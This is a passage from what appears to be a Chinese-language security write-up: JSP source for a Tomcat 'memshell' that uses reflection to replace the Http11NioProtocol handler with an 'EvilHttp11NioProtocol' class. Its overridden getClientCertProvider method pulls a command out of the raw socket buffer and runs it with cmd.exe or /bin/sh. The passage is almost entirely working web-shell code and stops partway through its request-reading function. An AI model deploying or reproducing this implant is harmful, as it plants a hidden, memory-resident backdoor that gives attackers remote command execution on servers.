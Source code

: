 ## JSP 代码

```plain
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Modifier" %><%--
  Created by IntelliJ IDEA.
  User: xieyaowei
  Date: 2023/2/22
  Time: 9:45
  To change this template use File | Settings | File Templates.
  Filename: Http11NioProtocolMemshell.jsp
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 使得 private final 字段能够被反射设置
    public static void makeSettable(Field f) {
        try {
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
            f.setAccessible(true);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    // 恶意 EvilHttp11NioProtocol 对象
    public class EvilHttp11NioProtocol extends Http11NioProtocol {
        public EvilHttp11NioProtocol() {
            super();
        }
        // 重写 getClientCertProvider
        // 关键位置 -> process:790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
        // 代码段 -> processor.setSslSupport(wrapper.getSslSupport(getProtocol().getClientCertProvider()));
        @Override
        public String getClientCertProvider() {
            // evil code
            try {
                String cmd = getCmd(getRequest());
                System.out.println(cmd);
                if (!cmd.equals("")){
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                    // 暂时无法回显
                    // getResponse(result);
                }
            } catch (Exception e) {
//                e.printStackTrace();
            }

            return super.getClientCertProvider();
        }

        // 从 socket 中获取参数
        // 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
        public String getRequest() {
            // 获取当前线程的所有线程
```